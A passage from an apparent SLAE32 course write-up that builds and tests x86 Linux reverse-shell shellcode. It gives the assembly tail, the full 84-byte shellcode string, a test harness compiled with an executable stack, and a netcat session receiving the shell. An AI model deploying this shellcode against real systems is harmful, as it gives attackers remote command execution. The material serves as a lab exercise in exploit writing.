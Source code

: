 ; execve(SHELL, NULL, NULL);
execve:
    ; execve
    push byte 0x0b      ; execve = 11 ~ 0x0b
    pop eax             ; eax = 0x0b

    ; arg execve(SHELL, NULL, NULL);
    xor ecx, ecx        ; ecx = 0
    push ecx            ; null
    push ecx            ; null
    push 0x68732f2f     ; "hs//""
    push 0x6e69622f     ; "nib/"
    mov ebx, esp        ; copy arguments on the stack to ecx
    int 0x80
{% endhighlight %}

## Testing

Testing and run the shellcode, as we can see on the screenshot the shellcode is listening to `*` and port `8443` and i'm able to connect to the shell.

{% highlight console linenos %}
kecebong@ubuntu:~/slae32/assigment/reverse$ make clean-all
[*] Cleanup reverse_shell.*
rm -f reverse_shell.txt
rm -f reverse_shell.o
rm -f reverse_shell
[*] Cleanup shellcode.*
rm -f shellcode

kecebong@ubuntu:~/slae32/assigment/reverse$ make
[*] Assembling with nasm...
nasm -f elf32 -o reverse_shell.o reverse_shell.nasm

[*] Linking object...
ld -m elf_i386 -o reverse_shell reverse_shell.o

[*] Size of Shellcode:
   text	   data	    bss	    dec	    hex	filename
     84	      0	      0	     84	     54	reverse_shell

[*] Shellcode:
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66
\x58\x6a\x03\x5b\x68\x7f\x01\x01\x01\x66\x68\x20\xfb\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89
\xe1\xcd\x80\x31\xc9\x6a\x02\x59\x57\x5b\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51
\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

kecebong@ubuntu:~/slae32/assigment/reverse$ make run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  84

────────────────────────────────────────────────────────────────────────────────────────────────────────

kecebong@ubuntu:~/slae32/assigment/reverse$ nc -lvn 8443
Connection from 127.0.0.1 port 8443 [tcp/*] accepted
hostname
ubuntu
ps
  PID TTY          TIME CMD
 6286 pts/2    00:00:00 bash
 9678 pts/2    00:00:00 bash
12767 pts/2    00:00:00 make
12771 pts/2    00:00:00 sh